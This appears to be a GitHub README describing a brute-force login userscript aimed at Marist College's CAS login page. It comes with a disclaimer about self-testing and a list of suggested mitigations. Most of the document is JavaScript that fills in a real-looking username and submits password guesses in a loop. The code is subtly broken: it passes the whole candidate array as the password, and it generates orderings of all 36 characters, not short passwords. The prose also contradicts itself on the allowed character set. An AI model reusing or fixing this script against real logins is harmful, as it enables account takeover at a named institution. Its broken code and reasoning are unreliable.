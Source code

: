 # Marist Login Script

## Daniel Gisolfi

#### Disclamer

I have no intention of exploiting this script in any way to login to another user`s account. I will only be using this on my own marist account to test the possibility of someone using this method to steal user information and logins.

### Issue Description

When loging onto marist services, the user is presented with a log on page working at the help desk I noticed a way to exploit the lack of an account lock in order to force log into any account. The current setup for a marist account login is not secure, a key reason for this the limted set of possible passwords a user can have. A marist account must be 6-8 characters long and contain only lower case letters with no special characters. All together this reduces the possible passwords to be comprised of only 36 characters (lowercase letters and numbers 0-9). As a result I have been able to write a script to brute force its way into an account due to the lack of a account lock when more than a few login attempts fail.

**LoginScript.js**

```javascript
// ==/UserScript==
if (window.location == 'https://login.marist.edu/cas/login') {
    if(!document.getElementById('password').value){
        alert("Starting");
        var charset = "abcdefghijklmnopqrstuvwxyz0123456789";
        permutations = permut(charset);
        for (var permutation of permutations){
            testPW(permutations);
        }  
    }
}

function testPW(string){
    //Place password attempt in password textbox
    username = "stdg1";
    document.getElementById('username').value = username;
    document.getElementById('password').value = permutations;
    //Press the submit button
    document.getElementsByName('submit')[0].click();
}

//Heaps Algorithm
function permut(string) {
    if (string.length < 2) return string; //break condition
    var permutations = []; //array to hold permutations

    for (var i=0; i<string.length; i++) {
        var char = string[i];
        // Eliminate duplicates:
        if (string.indexOf(char) != i) // if char was used already
            continue;           // skip it this time
        var remainingString = string.slice(0,i) + string.slice(i+1,string.length);
        for (var subPermutation of permut(remainingString))
            permutations.push(char + subPermutation);
    }
    return permutations;
}
```



### Possible Solutions

1. Add a security measure to lock an account and require a password reset after x amount of login attempts
2. Increase the possible password character options to make a brute force method of cracking passwords far more difficult
3. Add a layer of detection to detect when a script is attempting to force its way into an account